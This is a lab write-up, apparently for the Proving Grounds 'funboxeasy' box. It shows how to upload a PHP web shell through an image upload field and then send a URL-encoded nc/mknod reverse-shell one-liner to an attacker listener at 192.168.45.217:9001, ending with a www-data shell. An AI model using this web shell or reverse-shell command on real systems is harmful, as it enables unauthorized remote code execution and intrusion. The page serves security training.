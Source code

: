 ```yaml
---
layout: default
title: PHP Web Shell
parent: Shells
nav_order: 3
---
```


# PHP Web Shell

---

## Generic PHP Web Shell File Upload to LFI Reverse Shell

Authenticate to _admin.php_ portal with discovered credentials.

![auth](../../../../assets/images/ctfs/proving_grounds/funboxeasy/auth.png)

Edit a book...

![edit](../../../../assets/images/ctfs/proving_grounds/funboxeasy/edit.png)

Upload a PHP command shell file using the Image file option.

![upload](../../../../assets/images/ctfs/proving_grounds/funboxeasy/upload.png)

```bash
# Create file test.php with the following web shell code

<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>

```

Images are placed in the _/img_ directory.
Test PHP shell RCE functionality.

![cmd](../../../../assets/images/ctfs/proving_grounds/funboxeasy/cmd.png)

Now that we have a PHP command shell uploaded let get a revere shell.

Use _revshellgen_ and _urlencode_ to get a url encoded mk-nod reverse shell one-liner.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod | tail -n 1
rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Run the reverse shell one-liner and get a reverse shell on our netcat listener.

```bash
URL: 192.168.222.111/store/bootstrap/img/test.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl
```

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funboxeasy]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.111] 39914
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

